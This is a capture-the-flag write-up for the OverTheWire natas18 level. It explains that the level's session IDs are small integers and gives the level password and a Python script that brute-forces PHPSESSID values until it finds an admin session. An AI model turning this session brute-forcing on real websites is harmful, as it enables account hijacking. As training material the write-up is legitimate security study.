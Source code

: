 # Username
natas18
# Password
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
# Web vulnerability
Insecure session management
# Method of solve
This application uses only integers in its session ID creation, and the valid session ID numbers only ranges from 1 to 640, which makes valid session IDs vulnerable to brute force attack. We can brute force a valid session ID in a few different ways. Here's the Python method
```
import requests

url = "http://natas18.natas.labs.overthewire.org/index.php"
auth = ("natas18", "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")  # Replace with target creds

for session_id in range(1, 641):
    cookies = {"PHPSESSID": str(session_id)}
    response = requests.get(url, auth=auth, cookies=cookies)
    
    if "You are an admin" in response.text:
        print(f"Admin session found! PHPSESSID={session_id}")
        print(response.text)
        break
```
